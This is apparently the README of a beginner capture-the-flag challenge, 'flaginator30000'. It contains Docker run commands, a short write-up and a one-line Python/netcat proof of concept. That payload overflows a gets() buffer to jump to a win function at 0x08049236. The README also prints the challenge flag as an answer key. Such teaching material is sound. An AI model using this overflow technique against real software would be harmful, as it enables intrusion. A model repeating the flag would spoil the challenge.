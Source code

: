 # flaginator30000

## Category
Exploit

## Estimated difficulty
Easy

## Description
It's a simple buffer overflow where it is just needed to return to a different function to get the flag.
It can be run with:
  sudo docker build -t flaginator30000 .
  sudo docker run -d -p "0.0.0.0:3334:9999" -h "flaginator30000" --name="flaginator30000" flaginator30000


## Scenario
This little software just want to be sure you are really an administrator. How can you prove it?
It can be found at the following IP on the port PORT.

## Write-up
By reversing the executable we can see it uses an unprotected call to gets with all buffer overflow protection.
We also can find a win function at address 0x08049236 that will read the flag.

We just have to find the correct offset to override the return pointer and access the win function using gdb for instance.

Knowing all of that, we can use the following exploit to recover the flag:
`python2 -c 'print "AAAAAAAAAAAAAAAAAAAABBBBBBBBCCCC" + "\x36\x92\x04\x08"'  | nc 127.0.0.1 3334`


## PoC script
```
python2 -c 'print "AAAAAAAAAAAAAAAAAAAABBBBBBBBCCCC" + "\x36\x92\x04\x08"'  | nc 127.0.0.1 3334
```


## Flag
CSC{BufF3r_0v3floWs!}

## Creator
Romain Fontaine

## Creator bio
Cyber security analyst working at the CERT.be. Mostly working in reverse engineering and cryptography.